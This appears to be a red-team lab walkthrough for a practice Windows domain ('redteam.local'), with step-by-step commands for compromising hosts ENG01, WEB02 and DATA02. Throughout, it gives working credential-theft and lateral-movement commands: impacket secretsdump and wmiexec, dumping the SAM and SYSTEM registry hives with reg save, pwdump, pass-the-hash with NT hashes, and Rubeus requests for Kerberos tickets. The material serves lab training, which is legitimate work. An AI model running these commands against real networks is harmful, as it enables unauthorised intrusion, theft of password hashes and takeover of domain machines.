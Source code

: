 ## ENG01
### Find credentials (```adm_engserver```) in LDAP domaindump (```domain_users.grep```) and login into ENG01

## WEB02
### Find credentials of local Admin BackupAdmin in SAM dump via secretsdump
```
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py redteam.local/adm_engserver@192.168.0.22
```

### Find credentials of local Admin BackupAdmin in SAM dump via SAM/SYSTEM dump
```
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py redteam.local/adm_engserver@192.168.0.22

reg save HKLM\SYSTEM C:\SYSTEM
reg save HKLM\SAM C:\SAM

lget C:\SYSTEM
lget C:\SAM
```

```
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py  -system SYSTEM -sam SAM local
```

```
python3 /usr/share/creddump7/pwdump.py SYSTEM SAM
```

### PTH to WEB02
```
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -hashes :{NT hash} BackupAdmin@192.168.0.32
```

## DATA02 ##
### Collect NT hash of WEB02$ machine (secretsdump, or use Mimikatz)
```
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -hashes :{NT hash} BackupAdmin@192.168.0.32
```

### Request TGT as WEB02 using Rubeus
```
.\Rubeus.exe asktgt /user:WEB02$ /domain:redteam.local /rc4:{NT hash} /nowrap
```
